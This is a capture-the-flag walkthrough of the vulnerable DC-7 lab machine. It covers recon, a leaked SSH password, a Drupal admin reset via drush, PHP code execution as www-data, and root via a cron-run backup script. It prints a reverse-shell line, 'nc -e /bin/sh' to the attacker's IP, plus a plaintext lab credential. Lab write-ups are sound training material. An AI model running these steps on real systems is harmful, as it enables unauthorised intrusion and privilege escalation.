### **Netdiscover**



We use the tools called netdiscover scan hosts, we found the 192.168.0.106 is our target virtualbox host ip.

------

### **Namp**



We found some services  <u>HTTP</u>, <u>SSH</u>

------

### Solution



This a website powered by drupal, we have no user and the we use gobuster nothing .

according to this hint ==> so we findDC7USER  ==> Found the user may user twitter.



So i went into his github.



So we found his user **dc7user**, password **MdR3xOgB7#dW** luckily.

We logon with dc7user in web failed , so we login in ssh successfully!!!





We found something interesting file.mbox



We could guess /opt/scripts/backups.sh may be executed by crantab server.



So we should to get the privilege of user www-data. we try modify the admin password with drush

`drush user-password admin --password="admin"`



We login this Web with admin user.





Now we should look for somewhere that could execute our shell to get www-data





We can use content to preview out php code, but we should install php extension(downloaded from

 https://www.drupal.org/docs/8/system-requirements/php-requirements)

Then we can config this extension.







we get the user www-data, so we echo 'nc -e /bin/sh 192.168.0.105 233' to reverse our shell with root





now we' re root and we cd /root



Successfully!!!!

------

**That' all , Thanks for your watching**